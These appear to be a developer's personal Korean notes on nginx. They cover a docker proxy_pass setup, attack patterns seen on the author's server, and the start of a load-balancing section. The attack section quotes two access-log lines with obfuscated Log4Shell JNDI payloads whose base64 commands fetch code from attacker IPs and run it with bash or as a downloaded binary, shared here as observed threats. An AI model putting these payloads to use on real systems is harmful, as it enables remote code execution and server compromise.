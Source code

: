 ```
# 예시.

server {
    ...
    
    # [21.08.01] 통계API 프록시
    # Common. docker로 구성시, localhost/127.0.0.1을 입력하면 접근을 못한다.
    # 실제, docker내부로 접속하여 해당컨터이너에 할당된 IP를 입력해야한다.
    location /statics {
        # proxy_pass http://127.0.0.1:8201/statics;  ==> docker가 아닌 현재 물리서버의 루프백        (동작안함)
        proxy_pass http://172.17.0.1:8201/statics;   ==> docker network (gateway에 해당하는)로 접근 (동작함)
        charset utf-8;
    }
    
    ...
    
}
    
```


## 서버 공격패턴
> 참고 https://tech.yeon.me/blog/%ec%9a%94%ec%a6%98-%ec%9e%90%ec%a3%bc-%eb%b3%b4%ec%9d%b4%eb%8a%94-%ec%9b%b9%ec%82%ac%ec%9d%b4%ed%8a%b8-%ea%b3%b5%ea%b2%a9-%ed%8c%a8%ed%84%b4/#comment-5  

클라우드 서버긴 하지만, 운영중에 있어 참고할 만한 내용같아서 링크만 남겨둔다.  
(실제 로그에서 봤던 내용도 있어,,, 요녀석들 참 집요하다 싶다.)  

 * 내 서버에도 이런로그가 발견되었다. 이런 하꼬서버에도 찾아주시는 분들이라니... 아쉽게도 http로 접속하셔서 차단박았다.
 ```
195.54.160.149 - - [25/Dec/2021:02:27:48 +0900] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC80MC44Ni4xNjkuNjc6NDQzfHx3Z2V0IC1xIC1PLSAxOTUuNTQuMTYwLjE0OTo1ODc0LzQwLjg2LjE2OS42Nzo0NDMpfGJhc2g=} HTTP/1.1" 400 230 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC80MC44Ni4xNjkuNjc6NDQzfHx3Z2V0IC1xIC1PLSAxOTUuNTQuMTYwLjE0OTo1ODc0LzQwLjg2LjE2OS42Nzo0NDMpfGJhc2g=}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC80MC44Ni4xNjkuNjc6NDQzfHx3Z2V0IC1xIC1PLSAxOTUuNTQuMTYwLjE0OTo1ODc0LzQwLjg2LjE2OS42Nzo0NDMpfGJhc2g=}" "-"

18.221.182.245 - - [25/Dec/2021:06:56:39 +0900] "GET / HTTP/1.1" 400 248 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//135.148.130.60:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTguMjIyLjEyMi4yMjEvcmVhZGVyOyBjdXJsIC1PIGh0dHA6Ly8xOC4yMjIuMTIyLjIyMS9yZWFkZXI7IGNobW9kIDc3NyByZWFkZXI7IC4vcmVhZGVyIHJ1bm5lcg==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//135.148.130.60:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTguMjIyLjEyMi4yMjEvcmVhZGVyOyBjdXJsIC1PIGh0dHA6Ly8xOC4yMjIuMTIyLjIyMS9yZWFkZXI7IGNobW9kIDc3NyByZWFkZXI7IC4vcmVhZGVyIHJ1bm5lcg==}')" "-"

 ```
 

## 로드밸런싱 설정
> 참고 https://kamang-it.tistory.com/entry/WebServernginxnginx%EB%A1%9C-%EB%A1%9C%EB%93%9C%EB%B0%B8%EB%9F%B0%EC%8B%B1-%ED%95%98%EA%B8%B0  
생각보다 간단하다.  
향후, 로그인같은 기능만들면, 서버를 두대로 하거나, 아니면 docker 컨테이너를 두대를 띄우거나 하면 해당기능으로 로드밸런싱해도 되겠다.  
간단한 스크립트를 기술한다.  
